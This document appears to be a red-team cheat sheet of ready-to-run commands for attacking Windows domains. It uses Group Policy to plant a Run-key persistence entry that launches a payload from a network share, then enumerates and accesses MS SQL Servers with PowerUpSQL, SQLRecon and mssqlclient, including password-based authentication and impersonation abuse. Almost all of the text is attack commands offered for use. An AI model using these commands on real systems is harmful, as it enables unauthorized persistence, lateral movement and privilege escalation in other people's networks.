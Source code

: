 Attack
check for optional GPO management PowerShell module: `powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`
Install if not installed: `Install-WindowsFeature GPMC`

[[#Serving Payload Internally (SMB)]]

as principal that can create GPO
`powershell New-GPO -Name "Updater"`
`powershell Set-GPPrefRegistryValue -Name "Updater" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c [share]\dns_x64.exe" -Type ExpandString`
as principal that can link GPO
`powershell Get-GPO -Name "Updater" | New-GPLink -Target "[ObjectDN]"`
## MS SQL Servers
`powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1`

`powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`

SQL Instance
`powershell Get-SQLInstanceDomain`
`powershell Get-SQLInstanceBroadcast`
`powershell Get-SQLInstanceScanUDP`

Server Information
`powershell Get-SQLConnectionTest -Instance "[host],[port]" | fl`
`powershell Get-SQLServerInfo -Instance "[host],[port]"`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:info`

Getting Access
search SPNs: `execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns`
search SQL users: `powerpick Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }`

current user: `execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:whoami`
pass-the-password: `execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:[domain] /u:[user] /p:[password] /h:[host],[port] /m:whoami`

Query
`powershell Get-SQLQuery -Instance "[host],[port]" -Query "select @@servername"`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:query /c:"select @@servername"`
`proxychains mssqlclient.py -windows-auth [domain]/[user]@[host]`
#### MS SQL Impersonation
Requirement: impersonate is explicitly granted for a user

Check Impersonate Permissions
`SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';`
`SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;`

`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:impersonate`
